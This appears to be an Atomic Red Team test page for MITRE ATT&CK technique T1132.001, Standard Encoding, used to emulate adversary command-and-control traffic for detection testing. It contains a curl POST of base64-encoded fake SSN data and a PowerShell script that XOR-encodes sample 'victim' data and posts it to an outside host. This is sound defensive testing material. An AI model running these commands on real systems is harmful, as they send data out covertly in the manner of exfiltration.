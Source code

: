 # T1132.001 - Standard Encoding
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1132/001)
<blockquote>Adversaries may encode data with a standard data encoding system to make the content of command and control traffic more difficult to detect. Command and control (C2) information can be encoded using a standard data encoding system that adheres to existing protocol specifications. Common data encoding schemes include ASCII, Unicode, hexadecimal, Base64, and MIME.(Citation: Wikipedia Binary-to-text Encoding) (Citation: Wikipedia Character Encoding) Some data encoding systems may also result in data compression, such as gzip.</blockquote>

## Atomic Tests

- [Atomic Test #1 - Base64 Encoded data.](#atomic-test-1---base64-encoded-data)

- [Atomic Test #2 - XOR Encoded data.](#atomic-test-2---xor-encoded-data)


<br/>

## Atomic Test #1 - Base64 Encoded data.
Utilizing a common technique for posting base64 encoded data.

**Supported Platforms:** macOS, Linux


**auto_generated_guid:** 1164f70f-9a88-4dff-b9ff-dc70e7bf0c25





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| destination_url | Destination URL to post encoded data. | string | redcanary.com|
| base64_data | Encoded data to post using fake Social Security number 111-11-1111. | string | MTExLTExLTExMTE=|


#### Attack Commands: Run with `sh`! 


```sh
echo -n 111-11-1111 | base64
curl -XPOST #{base64_data}.#{destination_url}
```






<br/>
<br/>

## Atomic Test #2 - XOR Encoded data.
XOR encodes the data with a XOR key.
Reference - https://gist.github.com/loadenmb/8254cee0f0287b896a05dcdc8a30042f

**Supported Platforms:** Windows


**auto_generated_guid:** c3ed6d2a-e3ad-400d-ad78-bbfdbfeacc08





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| destination_url | Destination URL to post encoded data. | string | example.com|
| plaintext | Plain text mimicking victim data sent to C2 server. | string | Path&#92;n----&#92;nC:&#92;Users&#92;victim|
| key | XOR key used for encoding the plaintext. | string | abcdefghijklmnopqrstuvwxyz123456|


#### Attack Commands: Run with `powershell`! 


```powershell
$plaintext = ([system.Text.Encoding]::UTF8.getBytes("#{plaintext}"))
$key = "#{key}"
$cyphertext =  @();
for ($i = 0; $i -lt $plaintext.Count; $i++) {
 $cyphertext += $plaintext[$i] -bxor $key[$i % $key.Length];
}
$cyphertext = [system.Text.Encoding]::UTF8.getString($cyphertext)
[System.Net.ServicePointManager]::Expect100Continue = $false
Invoke-WebRequest -Uri #{destination_url} -Method POST -Body $cyphertext -DisableKeepAlive
```






<br/>
